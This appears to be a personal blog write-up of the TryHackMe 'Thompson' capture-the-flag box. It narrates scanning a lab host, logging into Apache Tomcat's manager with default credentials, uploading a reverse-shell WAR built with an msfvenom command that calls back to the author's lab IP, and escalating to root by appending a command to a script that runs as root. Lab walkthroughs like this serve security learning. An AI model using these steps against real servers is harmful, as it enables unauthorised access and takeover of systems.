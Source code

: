 ```yaml
---
layout: post
title: "Thompson | THM "
date: 2021-11-20 17:17:00 -0000
categories: CTF THM
---
```

Just a simple boot to root box.

Lets start by navigating to the url.

Ok, I get an unable to connect to the server. Lets run nmap and see what we can find.

Nmap scan report for 10.10.203.251
Host is up (0.17s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
1272/tcp filtered cspmlockmgr
5904/tcp filtered unknown
8009/tcp open     ajp13
8080/tcp open     http-proxy
8649/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 96.05 seconds

Attempting to connect to 8080 and I get an SSL timeout error. Removing the HTTPs from the start of the url fixes this problem. (oops!)


If we do a little research, we can find that /manager/html has a login page.

Lets see if there are any other vulnerabilities for apache tomcat 8.5.5. Theres a python script that may work for rce. Tried it but it did not work.

Ok - lets take a step back and look at some of the other ports.I have never seen ajp before. AJP is used to allow efficient passing of binary
representations of the headers between the proxy server and the app server.

Doing some research there seems to be a vulnerability called ghostcat that may exploit this protocol.

Ok - watched a john hammond video on ghost cat vuln and found an ajp shooter that works. I can read files off of the site. Now, we just need to find the installation directory.

Couldn't find anything! Turns out i went down a rabbit hole. After i looked at a hint, lets go back to the manager login and try the default creds.

Remember folks, ALWAYS TRY THE DEFAULT CREDS.
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

haha wow look im in.

There are a few different endpoints here and an ability to upload files/directories. There is a WAR file upload, lets see if we can exploit that.

https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/

tried to use metasploit but it did not work. Lets try to do it manually.

msfvenom -p java/shell_reverse_tcp lhost=10.6.10.177 lport=9999 -f war -o pwn.war

That worked! Time to upgrade shell
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

nice, now we can read user.txt. Lets try to escalate privs or move laterally. Theres an interesting file thats running that runs as root and dumps it into a text file.

So, a normal human being would use a text editor to edit the file. But, here we use echo. append the following command to cause the script to
read the root.txt located in the /root/root.txt directory.

echo -e 'echo -e $(cat /root/root.txt >> test.txt)' >> id.sh

yes, that is two echos. But it works! So after 2 hours and multiple wrong paths we have finished the box!

Thank you for following along with this adhd guide. 
